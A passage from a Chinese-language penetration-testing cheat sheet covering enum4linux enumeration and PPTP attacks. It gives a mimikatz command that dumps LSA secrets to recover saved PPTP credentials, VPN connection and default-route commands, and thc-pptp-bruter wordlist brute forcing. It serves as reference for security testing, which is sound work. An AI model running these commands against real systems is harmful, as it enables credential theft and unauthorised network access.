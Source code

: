 - enum4linux
    ```bash
    enum4linux <目标IP>
    ```

---

# PPTP

**文章**
- [渗透技巧——PPTP口令的获取与爆破](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-PPTP%E5%8F%A3%E4%BB%A4%E7%9A%84%E8%8E%B7%E5%8F%96%E4%B8%8E%E7%88%86%E7%A0%B4/)

**获得PPTP 口令**

Windows系统拨号和宽带连接的配置信息存储在固定位置，路径如下：
 `%APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk` 查看该文件即可获得 PPTP 连接的配置信息，包括服务器 IP，不包含连接用户名和口令

```
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

**windows 命令行下连接 PPTP VPN**
```
rasdial "VPN Connection" username pass

# 关闭连接
rasphone -h "VPN Connection"
```

**kali 连接 PPTP VPN**
```bash
pptpsetup --create vpn --server xx.xx.xx.xx --username username --password pass --encrypt --start

# 将默认路由表修改为远程
route del default
route add default gw xx.xx.xx.xx
```

**暴力破解 PPTP 口令**

- 工具
    - [BlackArch/thc-pptp-bruter](https://github.com/BlackArch/thc-pptp-bruter) - kali 默认自带
        ```
        cat wordlist | thc-pptp-bruter -u username xx.xx.xx.xxx
        ```
    - [pptp_password_hack.py](https://github.com/3gstudent/Homework-of-Python/blob/master/pptp_password_hack.py)

---

# SMTP
